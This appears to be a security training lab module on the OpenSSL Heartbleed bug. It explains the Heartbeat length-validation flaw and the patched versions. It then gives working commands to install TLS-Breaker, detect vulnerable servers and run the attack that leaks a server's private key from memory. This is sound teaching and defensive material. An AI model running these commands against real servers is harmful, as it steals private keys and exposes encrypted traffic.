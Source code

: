 # Heartbleed Bug

The Heartbleed Bug is a significant example of an implementation flaw in a cryptographic library that provides algorithms for TLS, resulting in a high-impact vulnerability across a vast number of TLS servers.

## The Heartbleed Bug

TLS functionality can be extended through various extensions, one of which is the Heartbeat extension. This extension serves to verify if a current TLS connection is still active. Specifically, a client sends a `Heartbeat Request` message to the server, expecting a response. Receiving the anticipated response confirms that the server is still operational and the connection is alive.

The `Heartbeat Request` message comprises an arbitrary payload chosen by the client, along with the declared length of that payload. The server is expected to copy this payload into memory and then send it back as a response. For instance, a client might send `("HackTheBox", 10)` to the server, which would then reply with `"HackTheBox"`.

However, a critical bug existed in specific OpenSSL versions implementing the Heartbeat extension: they failed to validate the payload length declared by the client. This vulnerability allowed a malicious client to send a small payload but declare a much larger length. Consequently, the server would read and return data from its memory far beyond the actual payload received in the heartbeat message. For example, if an attacker sent a heartbeat message `("HackTheBox", 1024)`, the server would respond with 1024 bytes of data, starting from the memory location where "HackTheBox" was stored. This action would leak the contents of the server's memory to the client, which could include highly sensitive information such as the server's private key, potentially leading to a complete compromise of the system.

Since the Heartbeat extension was enabled by default in the vulnerable OpenSSL versions, a substantial number of servers were affected by this bug, making it a very serious threat at the time of its discovery.

## Tools & Prevention

To exploit the Heartbleed Bug, the TLS-Breaker tool collection can be utilized. The Heartbleed detection tool can be run as follows:

```bash
java -jar apps/heartbleed-1.0.1.jar -connect 127.0.0.1:443
```

A vulnerable server will typically respond with a `VULNERABLE` status, indicating that it incorrectly processes heartbeat messages with invalid length values.

If a server is vulnerable, the attack can be executed to retrieve the server's private key using the `-executeAttack` flag. It may be beneficial to increase the number of heartbeat messages sent with the `-heartbeats` flag. The tool automatically parses the dumped memory to retrieve the private key. As the attack is not deterministic, multiple executions might be necessary to succeed.

**Prevention:**

Preventing the Heartbleed Bug is straightforward as it is a bug specific to the OpenSSL library. The primary requirement is to ensure that a web server does not run a vulnerable version of OpenSSL. Specifically, vulnerable versions include OpenSSL 1.0.1 through 1.0.1f. Regularly updating OpenSSL to a patched version is essential for protection.

### Exploitation Details

To exploit the Heartbleed bug, you first need to install TLS-Breaker (if not already installed):

```bash
sudo apt install maven
git clone https://github.com/tls-attacker/TLS-Breaker
cd TLS-Breaker/
mvn clean install -DskipTests=true
```

Verify your Java installation as TLS-Breaker expects JDK 11 (e.g., `/usr/lib/jvm/java-1.11.0-openjdk-amd64`):

```bash
update-java-alternatives --list
```

Subsequently, you can exploit Heartbleed with `heartbleed-1.0.1.jar` to leak the server's private key. It is recommended to specify a higher number for the `-heartbeats` option (e.g., 20); since this attack is non-deterministic, you may need to retry it until the private key is leaked. The output can be piped to `grep` to display specific parts of the private key, such as the first 10 digits of `d`:

```bash
/usr/lib/jvm/java-1.11.0-openjdk-amd64/bin/java -jar apps/heartbleed-1.0.1.jar -connect STMIP:STMPO -executeAttack -heartbeats 20 | grep -Eo "d = [0-9]{1,10}"
```
